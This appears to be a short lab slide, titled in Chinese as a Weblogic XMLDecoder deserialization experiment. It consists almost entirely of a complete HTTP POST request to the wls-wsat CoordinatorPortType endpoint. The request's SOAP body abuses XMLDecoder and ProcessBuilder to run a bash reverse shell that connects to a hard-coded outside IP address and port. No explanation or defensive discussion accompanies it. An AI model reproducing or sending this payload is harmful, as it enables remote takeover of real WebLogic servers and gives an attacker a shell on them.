

# 实验-Weblogic XMLDecoder 反序列化漏洞
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 637

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/13.94.33.143/8089 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>